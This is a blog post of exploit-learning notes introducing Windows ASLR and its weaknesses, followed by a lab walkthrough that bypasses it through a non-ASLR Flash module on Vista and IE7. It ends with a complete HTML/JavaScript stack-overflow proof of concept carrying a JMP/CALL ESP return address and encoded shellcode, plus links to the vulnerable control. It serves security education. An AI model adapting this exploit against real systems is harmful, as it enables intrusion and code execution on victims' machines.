 ```yaml
---
title: Exploit learning notes 017 ASLR Introduction
description: introduction to ASLR technology and simple attack ideas
date: 2020-11-24 21:12:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ASLR
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-017-aslr-introduction/)

## Introduction to ASLR techniques

> Throughout, all of the previously described vulnerability exploitation methods share a common feature: they all require the identification of a clear jump address. Whether it is a generic springboard instruction such as JMP ESP or the various instructions used by Ret2Libc, we need to determine the entry point of this instruction first. As the saying goes, Microsoft's ASLR (Address Space Layout Randomization) technology is a protection mechanism that interferes with shellcode positioning by no longer using a fixed base address to load the program
>
> In fact, the concept of ASLR has been introduced in the Windows XP era, but the ASLR function on XP is very limited, only a simple randomization of PEB and TEB, but no randomization of the module load base address, until Windows Vista appeared, ASLR really began to work!
>
> Similar to SafeSEH, ASLR implementation requires both program support and OS support, where program support is not required.

- Microsoft has added the `/dynamicbase` linking option since Visual Studio 2005 SP1 to help us with this task. We just need to enable the `/ddynmicbase` linking option when we compile the program, and the compiled program will support ASLR

### Image randomization

- Image randomization is the process of randomizing the virtual address of the PE file loaded when it is mapped to memory, this address is determined at system startup and will change after system reboot
- Probably for compatibility reasons, Microsoft has set a switch for image randomization in the system, which users can set by setting the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\ MoveImages` key to set the working mode of image randomization
  - When set to `0`, image randomization is disabled
  - When set to `-1`, randomizable images are forced to be processed with or without the `IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE` flag set
  - Normal mode of operation when set to other values, only images with the randomized processing flag are processed
  - If `MoveImages` does not exist in the registry, you can manually create a value with the name `MoveImages` and the type `DWORD` and set its value as needed

### Stack randomization

- This measure is to randomly select the base address of the stack when the program is running. The difference with image base randomization is that the base address of the stack is not determined when the system is started, but when the program is opened, which means that the base address of the stack is different for any two runs of the same program, and thus the location of each variable in memory is not determined.
- Compile the following program in VS2008, run it twice on XP and Vista, and get the following result

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```

![Windows Vista](https://s3.ax1x.com/2020/11/24/DtT6JK.png)
![Windows XP](https://s3.ax1x.com/2020/11/24/DtTyi6.png)

- As you can see, the heap addresses are far apart on Vista, while they are identical on XP

### Randomization of PEB and TEB

- Getting the TEB and PEB of the current process is simple, the TEB is stored at `FS:0` and `FS:[0x18]` and the PEB is stored at the TEB offset `0x30`, you can get the TEB and PEB of the current process by the following code

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- Test run on Vista, the results are as shown

![PEB/TEB-random-Vista](https://s3.ax1x.com/2020/11/24/DtL3Ct.png)

- As you can see, the result is very poor, the PEB address is only randomized by one byte, and it is still very regular, the TEB is basically unchanged

### Defects of ASLR

- It is not difficult to see that when ASLR randomizes the image, although the module load base address has changed, but the entry point of each module's lower two bytes will not change, for example: the original base address: `0x00401234`, after randomization the base address becomes: `0x67291234`, so you can use this to attack it

## Attack the module without ASLR enabled

### Preparation

> Experimental environment: Windows Vista SP0, IE7, Adobe Flash Player 9.0.124

- Although the book requires the use of version 9.0.262, but I really can not find it, so I will use 9.0.124 instead, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- The vulnerable OCX control has already been compiled in the previous experiment, so use that one, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx), this control ctrl class object id: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Steps

- Reboot the system to see the ASLR module enabled

![ASLR not enabled status](https://s3.ax1x.com/2020/11/26/D0Nlod.png)

- Experimental control is not enabled GS
- Load POC page and Flash9k.ocx via IE7
- There is a stack overflow vulnerability in the function test, which aims to overwrite the return address of the function
- Because Flash9k.ocx is not ASLR enabled, the load base address is fixed, so you can search for a suitable springboard instruction inside to jump to shellcode
- IE7's DEP is turned off, so the impact of DEP is not considered
- Since the attack is achieved by overwriting the return address of the function, the best springboard instruction is JMP ESP
- `0x301D606B` is also `JMP ESP`, which will jump to the head of the string after execution, but the problem is that the four bytes of `6B 60 1D 30` constitute exactly one line of assembly instruction `imul esp,dword ptr ds:[eax+0x1D],0x30`, which will multiply the last two operands and subsequently put them into the first operand So it needs to keep the value of `[eax+0x1D]` correct, and currently eax is not pointing to a valid address, so it needs to fix eax
- Unfortunately, there is no suitable instruction for fixing eax, so change the address
- `0x303911D3` is also `JMP ESP`, but the assembly code it consists of will read both EC and EAX, so both registers need to be repaired, not feasible, change instruction
- `JMP ESP` is not available, use `JMP ESI` instead, address `0x3000DCD2` contains 0, directly excluded, address `0x302420C3` the last byte is retn, can not be used, excluded, address `0x3028EE6E` assembly code will directly cause an exception, excluded, this instruction is also no longer suitable, so look for other suitable instruction
- The `CALL ESP` at address `0x300942F2` seems to be suitable, it will also increase the esp by 8 bytes to avoid the garbage data.
- Here is the shellcode after the change

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- As shown in the picture, reboot the system, the shellcode runs normally, which means the attack on ASLR is successful

![shellcode run successfully](https://s3.ax1x.com/2020/11/26/D0oYUH.png)
